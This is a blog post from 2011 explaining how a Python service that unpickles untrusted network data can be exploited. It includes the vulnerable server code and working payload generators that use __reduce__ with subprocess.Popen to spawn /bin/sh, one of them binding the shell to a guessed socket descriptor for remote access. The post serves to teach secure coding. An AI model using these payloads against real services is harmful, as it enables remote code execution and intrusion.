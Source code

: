 ```yaml
---
layout: post
status: publish
published: true
title: Exploiting misuse of Python's "pickle"
author: nelhage
author_login: nelhage
author_email: nelhage@mit.edu
author_url: http://nelhage.com
wordpress_id: 469
wordpress_url: http://blog.nelhage.com/?p=469
date: 2011-03-20 18:38:13.000000000 +01:00
tags:
- security
- python
- shell
- twisted
- pickle
---
```

If you program in Python, you're probably familiar with the
[`pickle`][pickle] serialization library, which provides for efficient
binary serialization and loading of Python datatypes. *Hopefully*,
you're also familiar with the warning printed prominently near the
start of `pickle`'s documentation:

> *Warning:* The pickle module is not intended to be secure against
> erroneous or maliciously constructed data. Never unpickle data
> received from an untrusted or unauthenticated source.

Recently, however, I stumbled upon a project that was accepting and
unpacking untrusted pickles over the network, and a poll of some
friends revealed that few of them were aware of just how easy it is to
exploit a service that does this. As such, this blog post will
describe exactly how trivial it is to exploit such a service, using a
simplified version of the code I recently encountered as an
example. Nothing in here is novel, but it's interesting if you haven't
seen it.

The Target
----------

The vulnerable code was a [Twisted][twisted] server that listened over
SSL. The code looked roughly like the following:

<pre lang="python">
class VulnerableProtocol(protocol.Protocol):
  def dataReceived(self, data):

     # Code to actually parse incoming data according to an
     #  internal state machine
     # If we just finished receiving headers, call verifyAuth() to
       check authentication

  def verifyAuth(self, headers):
    try:
      token = cPickle.loads(base64.b64decode(headers['AuthToken']))
      if not check_hmac(token['signature'], token['data'], getSecretKey()):
        raise AuthenticationFailed
      self.secure_data = token['data']
    except:
      raise AuthenticationFailed
</pre>

So, if we just send a request that looks something like:

    AuthToken: <pickle here>

The server will happily unpickle it.

Executing Code
--------------

So, what can we do with that? Well, `pickle` is supposed to allow us
to represent arbitrary objects. An obvious target is Python's
[`subprocess.Popen`][subprocess] objects -- if we can trick the target
into instantiating one of those, they'll be executing arbitrary
commands for us! To generate such a pickle, however, we can't just
create a `Popen` object and pickle it; For various mostly-obvious
reasons, that won't work. We could read up on the "pickle" format and
construct a stream by hand, but it turns out there is no need to.

`pickle` allows arbitrary objects to declare how they should be
pickled by defining a [`__reduce__`][reduce] method, which should
return either a string or a tuple describing how to reconstruct this
object on unpacking. In the simplest form, that tuple should just
contain

 - A callable (which must be either a class, or satisfy some other,
   odder, constraints), and
 - A tuple of arguments to call that callable on.

`pickle` will pickle each of these pieces separately, and then on
unpickling, will call the callable on the provided arguments to
construct the new object.

And so, we can construct a pickle that, when un-pickled, will execute
`/bin/sh`, as follows:

<pre lang="python">
import cPickle
import subprocess
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/sh',),))

print base64.b64encode(cPickle.dumps(RunBinSh()))
</pre>

Getting a Remote Shell
----------------------

At this point, we've basically won. We can run arbitrary shell
commands on the target, and there are any number of ways we could
bootstrap from here up to an interactive shell and whatever else we
might want.

For completeness, I'll explain what I did, since it's a moderately
cute trick. `subprocess.Popen` lets us select which file descriptors
to attach to stdin, stdout, and stderr for the new process by passing
integers for the `stdin` and similarly-named arguments, so we can open
our `/bin/sh` on arbitrarily-numbered fd's.

However, as mentioned above, the target server uses Twisted, and it
serves all requests in the same thread, using an asynchronous
event-driven model. This means we can't necessarily predict which file
descriptor on the server will correspond to our socket, since it
depends on how many other clients are connected.

It also means, however, that every time we connect to the server,
we'll open a new socket inside the same server process. So, let's
guess that the server has fewer than, say, 20 concurrent connections
at the moment. If we connect to the server's socket 20 times, that
will open 20 new file descriptors in the server. Since they'll get
assigned sequentially, one of them will almost certainly be fd
20. Then, we can generate a pickle like so, and send it over:

<pre lang="python">
import cPickle
import subprocess
import base64

class Exploit(object):
  def __reduce__(self):
    fd = 20
    return (subprocess.Popen,
            (('/bin/sh',), # args
             0,            # bufsize
             None,         # executable
             fd, fd, fd    # std{in,out,err}
             ))

print base64.b64encode(cPickle.dumps(Exploit()))
</pre>

We'll open a `/bin/sh` on fd 20, which should be one of our 20
connections, and if all goes well, we'll see a prompt printed to one
of those. We'll send some junk on that fd until we manage to get the
original server to error out and close the connection, and we'll be
left talking to `/bin/sh` over a socket. Game over.

In Conclusion
-------------

Again, nothing here should be novel, nor would I expect any of these
pieces to take a competent hacker more than few minutes to figure out,
given the problem. But if this blog post teaches someone not to use
`pickle` on untrusted data, then it will be worth it.

[pickle]: http://docs.python.org/library/pickle.html
[twisted]: http://twistedmatrix.com/
[subprocess]: http://docs.python.org/library/subprocess.html
[pep-307]: http://www.python.org/dev/peps/pep-0307/
[reduce]: http://docs.python.org/library/pickle.html#object.__reduce__
